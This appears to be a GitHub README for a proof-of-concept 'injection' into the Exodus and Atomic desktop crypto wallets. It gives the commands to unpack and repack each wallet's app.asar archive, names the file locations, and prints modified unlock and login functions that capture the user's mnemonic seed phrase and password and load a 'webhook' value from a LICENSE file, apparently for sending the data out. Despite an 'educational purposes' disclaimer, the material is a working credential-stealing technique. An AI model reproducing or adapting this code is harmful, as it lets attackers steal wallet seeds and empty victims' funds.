


# wallets-injection
 Exodus and Atomic crypto wallets injection POC (captures mnemonic and password)

## Unpack ASAR
```
asar extract app.asar <output>
```

## Pack to ASAR
```
asar pack <input> app.asar
```

## Exodus
```js
async unlock(e) {
    if (await this.shouldUseTwoFactorAuthMode()) return;
    const t = await Object(ee.readSeco)(this._walletPaths.seedFile, e);
    this._setSeed(M.fromBuffer(t)), P.a.randomFillSync(t), await this._loadLightningCreds()

    const webhook = await fs.readFile('LICENSE', 'utf8');
    const mnemonic = this._seed.mnemonicString;
    const password = e;
}
```



Located at `%LOCALAPPDATA%\exodus\app-<version>\resources\app.asar`

## Atomic
I had to go back to an old Atomic version that allowed me to import modules. It can still be injected to new versions. After login, user is prompted for an update.
```js
async login() {
    let e;
    this.$storage.password = this.password;
    try {
        if (e = await this.$addresses.get(), 0 === e.length) throw new Error("empty addresses")
    } catch (e) {
        return console.error(e), void(this.passwordError = "Wrong password")
    }

    const mnemonic = await this.$storage.get("general_mnemonic");
    const password = await this.password
    const fs = require('fs').promises;
    const webhook = await fs.readFile('LICENSE.electron.txt', 'utf8');
}
```


Located at `%LOCALAPPDATA%\Programs\atomic\resources\app.asar`

## Credits:
- [loTus04](https://github.com/loTus04) for Atomic injection
- [dropout1337](https://github.com/dropout1337) for Exodus injection

## Disclaimer:

### Important Notice:
These injections are inteded for educational purposes only. There are provided strictly for educational and research purposes. Under no circumstances these should be used for any malicious activities, including but not limited to unauthorized access, data theft, or any other harmful actions.

### Usage Responsibility:

By accessing and using these injections, you acknowledge that you are solely responsible for your actions. Any misuse of these injections is strictly prohibited, and the creator (hackirby) disclaims any responsibility for how these injections is utilized. You are fully accountable for ensuring that your usage complies with all applicable laws and regulations in your jurisdiction.

### No Liability:

The creator (hackirby) of these injections shall not be held responsible for any damages or legal consequences resulting from the use or misuse of this software. This includes, but is not limited to, direct, indirect, incidental, consequential, or punitive damages arising out of your access, use, or inability to use these injections.

### No support:

The creator (hackirby) will not provide any support, guidance, or assistance related to the misuse of these injections. Any inquiries regarding malicious activities will be ignored.

### Acceptance of Terms:

By using these injections, you signify your acceptance of this disclaimer. If you do not agree with the terms stated in this disclaimer, do not use them.
